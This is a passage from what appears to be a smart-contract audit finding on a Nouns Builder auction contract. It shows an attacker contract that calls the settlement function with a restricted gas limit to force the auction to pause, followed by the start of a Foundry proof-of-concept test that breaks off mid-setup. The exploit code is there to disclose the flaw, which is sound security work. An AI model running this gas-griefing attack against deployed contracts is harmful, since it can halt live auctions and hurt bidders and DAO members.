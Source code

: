 Consider the following POC. Here we are using another contract to restrict the gas limit of the call, but this can also be done with an EOA call from the attacker.

Exploit contract code:
```solidity
pragma solidity ^0.8.16;

contract Attacker {
    function forcePause(address target) external {
        bytes4 selector = bytes4(keccak256("settleCurrentAndCreateNewAuction()"));
        assembly {
            let ptr := mload(0x40)
            mstore(ptr,selector)
            let success := call(1500000, target, 0, ptr, 4, 0, 0)
        }
    }
}
```

POC:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.16;

import { NounsBuilderTest } from "./utils/NounsBuilderTest.sol";
import { MockERC721 } from "./utils/mocks/MockERC721.sol";
import { MockImpl } from "./utils/mocks/MockImpl.sol";
import { MockPartialTokenImpl } from "./utils/mocks/MockPartialTokenImpl.sol";
import { MockProtocolRewards } from "./utils/mocks/MockProtocolRewards.sol";
import { Auction } from "../src/auction/Auction.sol";
import { IAuction } from "../src/auction/IAuction.sol";
import { AuctionTypesV2 } from "../src/auction/types/AuctionTypesV2.sol";
import { TokenTypesV2 } from "../src/token/types/TokenTypesV2.sol";
import { Attacker } from "./Attacker.sol";

contract AuctionTest is NounsBuilderTest {
    MockImpl internal mockImpl;
    Auction internal rewardImpl;
    Attacker internal attacker;
    address internal bidder1;
    address internal bidder2;
    address internal referral;
    uint16 internal builderRewardBPS = 300;
    uint16 internal referralRewardBPS = 400;

    function setUp() public virtual override {
        super.setUp();
        bidder1 = vm.addr(0xB1);
        bidder2 = vm.addr(0xB2);
        vm.deal(bidder1, 100 ether);
        vm.deal(bidder2, 100 ether);
        mockImpl = new MockImpl();
        rewardImpl = new Auction(address(manager), address(rewards), weth, builderRewardBPS, referralRewardBPS);
        attacker = new Attacker();
    }

    function test_POC() public {
        // START OF SETUP
        address[] memory wallets = new address[](1);
        uint256[] memory percents = new uint256[](1);
        uint256[] memory vestingEnds = new uint256[](1);
        wallets[0] = founder;
        percents[0] = 99;
        vestingEnds[0] = 4 weeks;
```